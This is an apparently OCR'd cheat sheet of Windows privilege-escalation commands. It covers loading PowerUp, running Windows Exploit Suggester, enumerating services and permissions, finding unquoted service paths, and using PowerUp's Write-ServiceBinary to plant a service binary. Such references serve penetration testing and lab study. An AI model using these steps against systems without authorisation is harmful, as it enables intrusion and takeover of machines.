 ## Copy PowerUp from Kali and import
```powershell
cp /usr/share/powershell-empire/empire/server/data/module_source/privesc/PowerUp.ps1 .
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

## Run Windows Exploit Suggester on Kali
```bash
systeminfo > systeminfo.txt
python3 /opt/wesng/wes.py systeminfo.txt
```

## List all services
```powershell
sc query state=all
Get-Service
```

## Check service permissions with icacls
```powershell
icacls "C:\Program Files\Service\service.exe"
```

## List services with full path
```powershell
Get-WmiObject win32_service | Select-Object Name,State,PathName | Where-Object {$_.State -like 'Running'}
wmic service get name,displayname,pathname,startmode
```

## Find unquoted service paths with spaces
```cmd
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

## Find unquoted service paths with PowerShell
```powershell
Get-WmiObject -Class Win32_Service | Where-Object {$_.PathName -notlike '*"*' -and $_.PathName -like '* *'} | Select-Object Name,PathName,StartMode
```

## Find unquoted services with PowerUp
```powershell
Get-UnquotedService
Write-ServiceBinary
```

## Find modifiable service binaries with PowerUp
```powershell
Get-ModifiableServiceFile
```
